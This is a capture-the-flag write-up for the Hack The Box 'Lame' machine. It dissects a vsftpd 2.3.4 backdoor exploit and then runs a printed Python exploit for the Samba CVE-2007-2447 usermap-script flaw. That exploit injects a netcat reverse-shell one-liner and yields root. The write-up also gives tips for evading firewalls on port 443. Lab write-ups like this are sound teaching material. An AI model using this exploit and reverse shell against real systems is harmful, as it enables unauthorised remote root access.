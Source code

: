 .. _Lame Exploitation:

Exploitation
============

+-------------+--------------------------------------------+
|**Reference**|:ref:`netcat <netcat>`                      |
|             |                                            |
|             |:ref:`Netcat Reverse Shells <Netcat Shells>`|
|             |                                            |
|             |:ref:`nmap <nmap>`                          |
|             |                                            |
|             |:ref:`SearchSploit`                         |
+-------------+--------------------------------------------+


Time to test the mettle of the exploits we uncovered. As before, we'll start from the top.

.. index:: SearchSploit


vsftpd 2.3.4
------------
Using the ``-x`` flag with `SearchSploit`, let's examine the source code of the `vsftpd` exploit:

.. code-block:: none

    kali@kali:~/HTB/Lame$ searchsploit -x 17491
      Exploit: vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
          URL: https://www.exploit-db.com/exploits/17491
         Path: /usr/share/exploitdb/exploits/unix/remote/17491.rb
    File Type: Ruby script, ASCII text, with CRLF line terminators

This exploit is written for `Metasploit`. It's not terribly complex, and with a little effort we can piece together what the exploit does. The most important section of code is the ``exploit`` function. Let's break it down.

The first part of the function connects to the target FTP service, then grabs the banner:

.. code-block:: ruby

    def exploit
    [...]
            # Connect to the FTP service port first
            connect

            banner = sock.get_once(-1, 30).to_s
            print_status("Banner: #{banner.strip}")

With the connection established, the script sends a specially-crafted username:

.. code-block:: ruby

            sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
            resp = sock.get_once(-1, 30).to_s
            print_status("USER: #{resp.strip}")

The ``#{rand_text_alphanumeric(rand(6)+1)}`` bit generates a string of one to six random alphanumeric characters. Let's substitute ``XXXX`` and see what the ``sock.put`` function is sending to the FTP server:

.. code-block:: none

    USER XXXX:)\r\n

Dissecting this, we can see that the script is issuing the ``USER`` command to authenticate with the remote FTP service. Next, it sends ``XXXX``, followed by ``:)`` (a smiley-face), followed by ``\r\n``, which tells the FTP server that the command is complete.

Based on this information, it looks like any username will do, as long as it's followed by the ``:)`` smiley.

After sending the crafted username, the script checks the response from the server. It checks whether the return value starts with ``530``, or any other response code besides ``331``, which would signal the failure of the exploit attempt:

.. code-block:: ruby

            if resp =~ /^530 /
                    print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
                    disconnect
                    return
            end

            if resp !~ /^331 /
                    print_error("This server did not respond as expected: #{resp.strip}")
                    disconnect
                    return
            end

If the response code was ``331``, the script proceeds to send a randomly-generated password to the FTP service:

.. code-block:: ruby

            sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

But this password is irrelevant; simply by sending the appropriate ``USER`` and ``PASS`` commands, the exploit should have triggered the backdoor. In this case, the backdoor opens a bind shell on port 6200, so the script checks to see if that port is open:

.. code-block:: ruby

            # Do not bother reading the response from password, just try the backdoor
            nsock = self.connect(false, {'RPORT' => 6200}) rescue nil

If the port was opened successfully, the script connects and provides a command-line backdoor to the target:

.. code-block:: ruby

            if nsock
                    print_good("Backdoor service has been spawned, handling...")
                    handle_backdoor(nsock)
                    return
            end

            disconnect

    end

.. index:: nmap

Now that we know how the exploit works, we no longer need it. This exploit is simple enough that we can attempt it by hand. Recall that in our original port scan, port 6200 was not open. We can double-check this easily with `nmap`:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nmap -Pn -p 6200 10.10.10.3
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-28 14:45 EDT
    Nmap scan report for 10.10.10.3
    Host is up.

    PORT     STATE    SERVICE
    6200/tcp filtered lm-x

    Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds

.. index:: netcat

The port is marked as `filtered`, which means `nmap` could not tell whether the port was closed or open. Let's see if `netcat` can shed any light on the situation:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nc -vn -w 3 10.10.10.3 6200
    (UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out

The port is refusing to connect. Now that we've proven the port to be closed (at least to the outside), let's see if we can exploit the service. We'll use `netcat` again, this time connecting to port 21 to send the appropriate exploit values:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nc 10.10.10.3 21
    220 (vsFTPd 2.3.4)
    USER TEST:)
    331 Please specify the password.
    PASS WHATEVER

Having sent the username with the smiley-face, and an appropriate password, we can check port 6200 again to see if the backdoor was opened:

.. code-block:: none

    kali@kali:~/HTB/Lame$ nc -vn -w 3 10.10.10.3 6200
    (UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out

No such luck. It appears that either this is a patched version of `vsftpd`, or port 6200 is being blocked by the firewall. Either way, it's time to move to our next target.



.. _Lame Samba:

Samba 3.0.20
------------
We've got two potential vulnerabilities in this version of `Samba`. One is a security bypass, and the other is a command-execution vulnerability. Between the two, the latter seems like a more valuable vulnerability, and it's applicable to our specific target version. For these reasons, we'll target the command-execution vulnerability first. Using `SearchSploit`, let's take a look at the source code:

.. code-block:: none

    kali@kali:~/HTB/Lame$ searchsploit -x 16320
      Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
          URL: https://www.exploit-db.com/exploits/16320
         Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
    File Type: Ruby script, ASCII text, with CRLF line terminators

This exploit is another `Metasploit` module. According to the exploit, the vulnerability is caused by the use of the non-default "username map script" configuration option. By specifying shell meta characters in the provided username, arbitrary commands can be executed.

The exploit references **CVE-2007-2447**. After searching online, I was able to find `a blog post <https://amriunix.com/post/cve-2007-2447-samba-usermap-script/>`_ which explains the vulnerability and how it can be exploited. The post links to `a GitHub repository <https://github.com/amriunix/CVE-2007-2447>`_ which contains exploit code.

The exploit code requires `Python 2` and the `pysmb` library, so I'll be configuring it in a `virtual environment`. This allows me to configure `Python` and its libraries in a self-contained environment, instead of modifying the globally-installed libraries and `Python` versions.

If the `virtualenv` package isn't installed, you'll want to install it first:

.. code-block:: none

    kali@kali:~$ sudo apt install virtualenv
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    The following additional packages will be installed:
      python-pip-whl python3-appdirs python3-distlib python3-filelock python3-virtualenv
    The following NEW packages will be installed:
      python-pip-whl python3-appdirs python3-distlib python3-filelock python3-virtualenv virtualenv
    0 upgraded, 6 newly installed, 0 to remove and 262 not upgraded.
    Need to get 2,077 kB of archives.
    After this operation, 3,365 kB of additional disk space will be used.
    Do you want to continue? [Y/n] Y
    [...]

Next, I'll get the source code:

.. code-block:: none

    kali@kali:~$ git clone https://github.com/amriunix/cve-2007-2447.git
    Cloning into 'cve-2007-2447'...
    remote: Enumerating objects: 8, done.
    remote: Total 8 (delta 0), reused 0 (delta 0), pack-reused 8
    Receiving objects: 100% (8/8), done.
    Resolving deltas: 100% (2/2), done.

Now, enter the target directory and create the virtual environment:

.. code-block:: none

    kali@kali:~$ cd cve-2007-2447/
    kali@kali:~/cve-2007-2447$ virtualenv --python=python2 venv
    created virtual environment CPython2.7.18.final.0-64 in 617ms
      creator CPython2Posix(dest=/home/kali/cve-2007-2447/venv, clear=False, global=False)
      seeder FromAppData(download=False, lockfile=latest, pkg_resources=latest, chardet=latest, setuptools=latest, distlib=latest, distro=latest, CacheControl=latest, progress=latest, msgpack=latest, contextlib2=latest, retrying=latest, six=latest, ipaddr=latest, pep517=latest, html5lib=latest, requests=latest, appdirs=latest, idna=latest, pyparsing=latest, certifi=latest, colorama=latest, pytoml=latest, webencodings=latest, pip=latest, packaging=latest, urllib3=latest, wheel=latest, via=copy, app_data_dir=/home/kali/.local/share/virtualenv/seed-app-data/v1.0.1.debian)
      activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator

Next, activate the virtual environment, then install the `pysmb` library:

.. code-block:: none

    kali@kali:~/cve-2007-2447$ source venv/bin/activate
    (venv) kali@kali:~/cve-2007-2447$ pip install pysmb
    /home/kali/cve-2007-2447/venv/lib/python2.7/site-packages/pkg_resources/py2_warn.py:21: UserWarning: Setuptools will stop working on Python 2
    [...]
    Collecting pysmb
    [...]
    Building wheels for collected packages: pysmb
      Building wheel for pysmb (setup.py) ... done
      Created wheel for pysmb: filename=pysmb-1.2.1-py2-none-any.whl size=83186 sha256=cbd7a67238206d39e7b1814f37bcdb06ecc46682b9d8fd22349a62cf7ac791e9
      Stored in directory: /home/kali/.cache/pip/wheels/ea/44/40/91948192fe53fb51c72ad07bf0a6325b531754bb3979d96d53
    Successfully built pysmb
    Installing collected packages: pyasn1, pysmb
    Successfully installed pyasn1-0.4.8 pysmb-1.2.1

With this complete, we're nearly ready to attempt the exploit. Only one last step: check the source code before we use it. Fortunately, this exploit is remarkably small:

.. code-block:: python
   :linenos:

    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    # From : https://github.com/amriunix/cve-2007-2447
    # case study : https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

    import sys
    from smb.SMBConnection import SMBConnection

    def exploit(rhost, rport, lhost, lport):
            payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
            username = "/=`nohup " + payload + "`"
            conn = SMBConnection(username, "", "", "")
            try:
                conn.connect(rhost, int(rport), timeout=1)
            except:
                print '[+] Payload was sent - check netcat !'

    if __name__ == '__main__':
        print('[*] CVE-2007-2447 - Samba usermap script')
        if len(sys.argv) != 5:
            print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
        else:
            print("[+] Connecting !")
            rhost = sys.argv[1]
            rport = sys.argv[2]
            lhost = sys.argv[3]
            lport = sys.argv[4]
            exploit(rhost, rport, lhost, lport)

The most important part of this script is the ``exploit`` function. Let's walk through it, like we did with the `vsftpd` exploit. To start, we have the function declaration:

.. code-block:: python

    def exploit(rhost, rport, lhost, lport):

This function takes four values as input, which correspond to the remote and local hosts and ports we wish to use. Let's see how these values are used.

In the line, we can see how the payload is assembled:

.. code-block:: none

    payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'

The payload, when constructed, will look like this:

.. code-block:: none

    mkfifo /tmp/hago; nc [Local IP] [Local Port] 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago

This is a commonly-used :ref:`netcat reverse shell <Netcat Shells>` "one-liner" which creates a reverse TCP backdoor, piping ``/bin/sh`` through `netcat` to the local host and port.

The following lines inject the payload into a carefully-formatted Username string, then send the exploit to the target:

.. code-block:: python

    username = "/=`nohup " + payload + "`"
    conn = SMBConnection(username, "", "", "")
    try:
        conn.connect(rhost, int(rport), timeout=1)
    except:
        print '[+] Payload was sent - check netcat !'

Now that we understand how the exploit works, it's time to test it out. First, we'll set up a `netcat` listener on port 443, in order to catch our incoming reverse shell:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...

I like to use port 443 because it's the default port for HTTPS; while many firewalls may block outbound traffic on strange ports like 6666, few will block outbound traffic on port 443, as this would prevent the system from communicating with HTTPS websites.

With our listener established, it's time to attempt the exploit on the target. Let's first check the exploit's usage information (in case we forgot what we saw in the source code):

.. code-block:: none

    (venv) kali@kali:~/cve-2007-2447$ python usermap_script.py
    [*] CVE-2007-2447 - Samba usermap script
    [-] usage: python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>

Now that we understand how to run the exploit, let's launch our attack! (In this example, my local IP is ``10.10.14.15`` -- yours may be different.)

.. code-block:: none

    (venv) kali@kali:~/cve-2007-2447$ python usermap_script.py 10.10.10.3 139 10.10.14.15 443
    [*] CVE-2007-2447 - Samba usermap script
    [+] Connecting !
    [+] Payload was sent - check netcat !

Returning to our `netcat` listener, we have a shell! Using the `whoami` command, we can see that we're logged in as ``root``:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.3] 58541
    whoami
    root

Excellent! Let's get an improved shell using a `Python` trick:

.. code-block:: none

    python -c 'import pty;pty.spawn("/bin/bash")'
    root@lame:/# export TERM=linux
    export TERM=linux
    root@lame:/#

We've now got access to the ``root`` user on this system. Congratulations! You can now capture the ``user.txt`` and ``root.txt`` flags, if you wish.
